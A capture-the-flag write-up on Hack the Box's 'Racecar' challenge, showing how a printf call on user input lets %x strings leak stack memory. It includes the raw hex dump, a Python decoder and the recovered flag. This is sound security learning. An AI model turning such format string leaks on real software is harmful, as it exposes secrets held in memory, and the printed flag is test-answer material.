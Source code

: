 ```yaml
---
staticPath: racecar
Title: "Hack the Box: Racecar"
Description: Using a format string vulnerability to leak stack data
Date: 2024-11-28
tags: []
---
```

Racecar is a pwn challenge from Hack the Box. Below is where the executable opens the flag file.

![[Pasted image 20241128135930.png]]

Below is where the flag gets read onto the stack. `ebp` is a register that points to the base of the current stack frame which than gets pushed to `eax`.
![[Pasted image 20241128141609.png]]

While trying different strings in the win function i noticed it was a format string vulnerability.
![[Pasted image 20241128140342.png]]

Here's where it calls printf without a format string.

![[Pasted image 20241128140501.png]]

Strings doesn't seem to work for some reason

![[Pasted image 20241128140714.png]]

Spamming `%x` to leak stack data yields the following.

```
56e2b1c0 170 56555dfa 2f 9 26 2 1 5655696c 56e2b1c0 56e2b340 7b425448 5f796877 5f643164 34735f31 745f3376 665f3368 5f67346c 745f6e30 355f3368 6b633474 7d213f 10839500 f7f8a3fc 56558f8c ffc533f8 56556441 1 ffc534a4 ffc534ac 10839500 ffc53410 0 0 f7dcdf21 f7f8a000 f7f8a000 0 f7dcdf21 1 ffc534a4 ffc534ac ffc53434 1 ffc534a4 f7f8a000 f7fa870a ffc534a0 0 f7f8a000 0 0 c1004703 f2d5a113 0 0 0 40 f7fc0024 0 0 f7fa8819 56558f8c 1 56555790 0 565557c1 565563e1 1 ffc534a4 56556490 565564f0 f7fa8960 ffc5349c f7fc0940 1 ffc53d34 0 ffc53d46 ffc53d68 ffc53d9d ffc53dbc ffc53ddf ffc53e0c ffc53e21 ffc53e3d ffc53e5b ffc53e77 ffc53e9f ffc53ee1 ffc53f06 ffc53f27 ffc53f32 ffc53f54 ffc53f61 ffc53f6e ffc53f84 ffc53fa1 ffc53fb5 ffc53fd1 0 20 f7f97550 21 f7f97000 33 6f0 10 178bfbff 6 1000 11 64 3 56555034 4 20 5 9 7 f7f99000 8 0
```

Using some python to decode the hex I get the flag.

```python
for i in hexdump.split(" "):
    try:
       print(bytearray.fromhex(i).decode()[::-1],end="")
    except:
        pass 
```

```
/&liUVHTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}AdUV@ !3d4PUV **%**
```

# Final thoughts

Passing a user controlled buffer without a format string to printf is always a bad idea. Doing further research it looks like the reason `%s` doesn't work is because it reads off a number from the stack and then treats that as an address to read a string from. So there would have to be a valid address on the stack for `%s` to work. I found syracuse's [lecture notes](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) helpful for learning more about format string vulnerabilities.